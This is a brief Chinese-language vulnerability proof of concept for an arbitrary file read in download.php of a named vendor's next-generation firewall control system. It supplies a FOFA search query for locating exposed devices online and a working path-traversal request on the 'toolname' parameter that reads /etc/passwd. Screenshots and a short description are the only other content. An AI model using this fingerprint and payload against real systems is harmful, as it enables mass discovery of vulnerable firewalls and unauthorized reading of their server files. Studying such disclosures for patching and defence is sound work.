 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

```
中科网威 下一代防火墙控制系统
```

## FOFA

```
body="Get_Verify_Info(hex_md5(user_string)."
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162251851.png)

漏洞存在于 download.php

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162251009.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162251674.png)
